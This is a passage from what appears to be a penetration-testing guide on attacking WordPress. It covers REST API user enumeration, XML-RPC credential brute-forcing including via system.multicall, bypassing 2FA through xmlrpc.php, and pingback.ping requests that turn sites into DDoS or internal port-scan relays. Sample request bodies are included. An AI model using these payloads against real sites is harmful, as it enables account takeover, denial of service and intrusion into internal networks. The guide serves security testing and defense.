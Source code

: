 If the responses are **200** or **30X**, that means that the id is **valid**. If the the response is **400**, then the id is **invalid**.

You can also try to get information about the users by querying:

curl http://blog.example.com/wp-json/wp/v2/users

**Only information about the users that has this feature enable will be provided**.

Also note that ***/wp-json/wp/v2/pages*** *could leak IP addresses\*\*.\*\**

## 

XML-RPC

If `xml-rpc.php` is active you can perform a credentials brute-force or use it to launch DoS attacks to other resources. (You can automate this process [using this](https://github.com/relarizky/wpxploit) for example).

To see if it is active try to access to ***/xmlrpc.php*** and send this request:

<methodName\>system.listMethods</methodName\>

![](https://h3llwings.files.wordpress.com/2019/01/list-of-functions.png?w=656)

***wp.getUserBlogs***, \_**wp.getCategories** \_ or ***metaWeblog.getUsersBlogs*** are some of the methods that can be used to brute-force credentials. If you can find any of them you can send something like:

<methodName\>wp.getUsersBlogs</methodName\>

<param\><value\>admin</value\></param\>

<param\><value\>pass</value\></param\>

The message *"Incorrect username or password"* inside a 200 code response should appear if the credentials aren't valid.

Also there is a **faster way** to brute-force credentials using **`system.multicall`** as you can try several credentials on the same request:

![](ReadItLater%20Inbox/assets/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FFX0g2BLsdfdQnq1xXx3N%2Ffile.jpeg..jpeg?alt=media)

This method is meant for programs and not for humans, and old, therefore it doesn't support 2FA. So, if you have valid creds but the main entrance is protected by 2FA, **you might be able to abuse xmlrpc.php to login with those creds bypassing 2FA**. Note that you won't me able to perform all the actions you can do through the console, but you might still be able to get to RCE as Ippsec explains it in [https://www.youtube.com/watch?v=p8mIdm93mfw&t=1130s](https://www.youtube.com/watch?v=p8mIdm93mfw&t=1130s)​

If you can find the method ***pingback.ping*** inside the list you can make the Wordpress send an arbitrary request to any host/port. This can be used to ask **thousands** of Wordpress **sites** to **access** one **location** (so a **DDoS** is caused in that location) or you can use it to make **Wordpress** lo **scan** some internal **network** (you can indicate any port).

<methodName\>pingback.ping</methodName\>

<value\><string\>http://<YOUR SERVER \>:<port\></string\></value\>

</param\><param\><value\><string\>http://<SOME VALID BLOG FROM THE SITE \></string\>
